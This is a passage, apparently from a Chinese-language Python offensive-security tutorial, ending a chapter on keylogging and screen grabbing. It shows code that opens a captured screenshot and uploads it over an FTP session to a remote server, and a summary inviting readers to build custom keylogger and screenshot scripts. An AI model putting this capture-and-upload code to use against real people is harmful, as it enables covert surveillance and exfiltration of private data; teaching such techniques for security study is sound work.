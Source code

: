 使用以下代码打开文件：

```
file = open('screenshot.png','rb')

```

发送文件：

```
session.storbinary('STOR screenshot.png', file)

```

关闭文件和 FTP 会话：

```
file.close()                                     
session.quit() 

```

# 总结

我们已经讨论了可以使用 Python 进行键记录和屏幕抓取的基本模块。现在，您可以创建这些脚本的自定义版本来记录键和抓取屏幕截图。我们将在下一章中介绍一些攻击自动化技术。